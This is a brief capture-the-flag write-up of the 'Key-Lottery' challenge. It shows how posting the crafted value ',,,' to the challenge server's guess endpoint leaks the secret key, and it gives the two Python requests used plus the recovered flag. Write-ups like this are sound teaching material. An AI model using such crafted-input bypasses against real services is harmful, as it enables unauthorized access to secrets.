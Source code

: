 # Key-Lottery

## Writeup

We are given a server that asks us to guess a random string of length 32. If we supply it a empty list that wouldn't throw an error during parsing before being converted to a set like ',,,', it will print us key_set, that wasn't reasigned to our list yet and containts the random string are were looking for.

```python
In [1]: import requests

In [2]: print(requests.post("http://key-lottery.challs.m0lecon.it/guess", data={"keys" : ",,,"}).text)
got empty key set: {'p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT'}

In [3]: print(requests.post("http://key-lottery.challs.m0lecon.it/guess", data={"keys" : "p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT"}).text)
{"p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT":"ptm{u_guessed_it_alright_mate}"}
```

## flag
ptm{u_guessed_it_alright_mate}

